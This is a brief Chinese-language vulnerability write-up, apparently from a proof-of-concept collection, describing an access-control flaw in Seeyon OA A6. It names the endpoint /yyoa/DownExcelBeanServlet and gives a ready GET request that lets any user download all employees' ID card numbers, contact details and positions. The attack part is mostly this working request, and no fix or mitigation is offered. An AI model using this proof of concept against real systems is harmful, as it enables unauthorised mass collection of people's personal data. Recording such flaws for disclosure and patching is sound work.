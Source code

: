 # 致远OA A6 敏感信息泄露（二）

### 一、漏洞简介

### 二、漏洞影响

致远OA A6

### 三、复现过程

漏洞位置:


```
http://url/yyoa/DownExcelBeanServlet
```

漏洞详情:

版本:A6只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。

请求方式:

Get

Poc：


```bash
http://url/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```